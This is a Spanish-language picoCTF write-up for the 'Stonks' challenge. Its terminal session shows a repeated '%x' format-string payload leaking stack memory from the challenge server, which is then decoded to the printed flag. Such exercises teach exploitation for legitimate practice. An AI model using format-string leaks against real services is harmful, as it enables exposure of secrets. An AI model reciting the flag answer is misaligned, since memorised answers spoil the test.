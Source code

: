 # 05-Stonks

## Objetivo
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/fdf270d959fa5231e180e2bd11421d0c/vuln.c) `nc mercury.picoctf.net 16439`

## Pistas

| No. Pista | Pista                                               |
| --------- | --------------------------------------------------- |
| 1         | Okay, maybe I'd believe you if you find my API key. |

## Solucion
```bash
┌──(kali㉿kali)-[~/Documentos/binary]
└─$ nano vuln.c.1              
                                                                                       
┌──(kali㉿kali)-[~/Documentos/binary]
└─$ nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x
Buying stonks with token:
942a3d0
Portfolio as of Mon Nov 25 22:00:32 UTC 2024


3 shares of NSQ
3 shares of DWIN
15 shares of L
46 shares of XRJ
146 shares of S
87 shares of MM
1488 shares of V
Goodbye!
                                                                                       
┌──(kali㉿kali)-[~/Documentos/binary]
└─$ nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%        
Buying stonks with token:
93cb450804b00080489c3f7f0cd80ffffffff193c9160f7f1a110f7f0cdc7093ca180193cb43093cb4506f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6263376365616336ffea007df7f47af8f7f1a440df89da0010f7da9ce9f7f1b0c0f7f0c5c0f7f0c000ffeaa4c8f7d9a68df7f0c5c08048ecaffeaa4d40
Portfolio as of Mon Nov 25 22:03:19 UTC 2024


1 shares of F
1 shares of S
7 shares of U
7 shares of VJN
1 shares of ONJC
2 shares of IRI
1 shares of WXSR
4 shares of M
67 shares of Y
215 shares of LF
32 shares of X
Goodbye!
```
93cb450804b00080489c3f7f0cd80ffffffff193c9160f7f1a110f7f0cdc7093ca180193cb43093cb4506f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6263376365616336ffea007df7f47af8f7f1a440df89da0010f7da9ce9f7f1b0c0f7f0c5c0f7f0c000ffeaa4c8f7d9a68df7f0c5c08048ecaffeaa4d40

* Lo pasamos a CyberChef (FromHex)(Swap Endianness)
* Quitamos los 4 primeros digitos
* Apareceria la bandera

picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}

## Notas adicionales

## Referencias